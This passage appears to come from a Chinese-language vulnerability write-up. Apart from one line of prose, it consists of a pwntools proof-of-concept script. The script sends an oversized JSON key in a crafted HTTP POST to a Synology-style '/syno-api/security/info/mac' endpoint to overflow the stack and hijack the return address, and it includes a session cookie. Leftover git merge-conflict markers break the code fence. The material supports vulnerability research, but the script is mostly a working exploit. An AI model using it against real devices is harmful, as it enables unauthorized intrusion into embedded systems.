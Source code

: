 调试之后，如下 Poc 就可以劫持返回地址为 0x62626262 了

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
from pwn import *

context(arch='arm', os='linux', log_level='debug')

li = lambda x : print('\x1b[01;38;5;214m' + str(x) + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + str(x) + '\x1b[0m')
lg = lambda x : print('\033[32m' + str(x) + '\033[0m')

context.terminal = ['tmux','splitw','-h']

ip = '127.0.0.1'
port = 8801

r = remote(ip, port)

p1 = b'a ' + b'a' * (0x60 + 0x24) + b'b' * 4

value = b'""'
json = b'{"' + p1 + b'": ""}'
li(json)

rn = b'\r\n'

p3 = b''
p3 += b'POST /syno-api/security/info/mac HTTP/1.1' + rn
p3 += (b"Content-Length: %d" % len(json)) +rn
p3 += b'Host: 127.0.0.1:8801' + rn
p3 += b'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"' + rn
p3 += b'Accept: text/plain, */*; q=0.01' + rn
p3 += b'Content-Type: application/json' + rn
p3 += b'X-Requested-With: XMLHttpRequest' + rn
p3 += b'sec-ch-ua-mobile: ?0' + rn
p3 += b'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36' + rn
p3 += b'sec-ch-ua-platform: "macOS"' + rn
p3 += b'Origin: http://127.0.0.1:8801' + rn
p3 += b'Sec-Fetch-Site: same-origin' + rn
p3 += b'Sec-Fetch-Mode: cors' + rn
p3 += b'Sec-Fetch-Dest: empty' + rn
p3 += b'Referer: http://127.0.0.1:8801/' + rn
p3 += b'Accept-Encoding: gzip, deflate' + rn
p3 += b'Accept-Language: zh-CN,zh;q=0.9' + rn
p3 += b'Cookie: sid=sBmrHHr4XX4TKaIjv0Vw6L3I15y46m47DO9qeF79CPjquIMOAHX6ygmRJ2AaNleg' + rn
p3 += b'Connection: close' + rn
p3 += rn
p3 += json

li('[+] sendling payload')
r.send(p3)

r.interactive()
```
